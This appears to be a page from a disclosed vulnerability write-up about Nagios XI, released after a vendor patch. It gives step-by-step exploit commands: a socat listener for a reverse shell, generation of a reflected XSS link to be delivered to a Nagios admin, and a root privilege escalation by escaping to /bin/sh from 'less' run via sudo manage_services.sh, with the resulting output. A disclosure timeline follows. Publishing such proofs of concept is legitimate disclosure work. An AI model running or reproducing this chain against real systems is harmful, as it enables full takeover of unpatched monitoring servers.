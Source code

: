```
# 1. Set up socat listener on the client to catch our reverse shell. Leave this
# terminal window open.
> socat file:`tty`,raw,echo=0 tcp-listen:22473

# 2. Edit the reverse shell payload so rev_shell_ip reflects the IP of your
# socat listener.
> vim xss_payloads_and_ssrf_tools/payloads/rev-shell-payload.js

# 3. Generate the Reflected XSS Payload
cd xss_payloads_and_ssrf_tools
python tools/package-payload.py payloads/rev-shell-payload.js --account \
  --host http://YOUR_NAGIOS_IP > link.txt

# 4. Open a browser and surf to the link written to stdout by the previous
# script or deliver the link in whatever manner you prefer. Login in as a Nagios
# admin user if you are prompted to do so.
> firefox `cat link.txt`

# 5. Return to the socat listener, which should have a connection, then perform
# the privesc via manage_services.sh. Using TERM=linux is optional but it silences
# a warning. Note that you type `!/bin/sh' while the service status text is
# displayed to invoke the command via `less', which is runing as root.
> whoami
www-data
> export TERM=linux
> sudo /usr/local/nagiosxi/scripts/manage_services.sh status nagios
* nagios.service - Nagios Core 4.4.6
   Loaded: loaded (/lib/systemd/system/nagios.service; enabled; vendor preset: e
   Active: active (running) since Mon 2021-09-13 07:58:26 PDT; 1h 16min ago
     Docs: https://www.nagios.org/documentation
  Process: 1764 ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/
  Process: 1761 ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/e
 Main PID: 1765 (nagios)
    Tasks: 8 (limit: 9461)
   CGroup: /system.slice/nagios.service
           |-1765 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.c
           |-1766 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1767 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1768 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1769 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1770 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1771 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           `-1920 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.c
> !/bin/sh
# 
> whoami
root
```

# Timeline

-   09/13/2021 - Notified vendor

-   09/13/2021 - Vendor acknowledged disclosure

-   10/28/2021 - New versions of software released with patches

-   10/28/2021 - NotQuite0DayFriday release

-   10/28/2021 - Blog post release
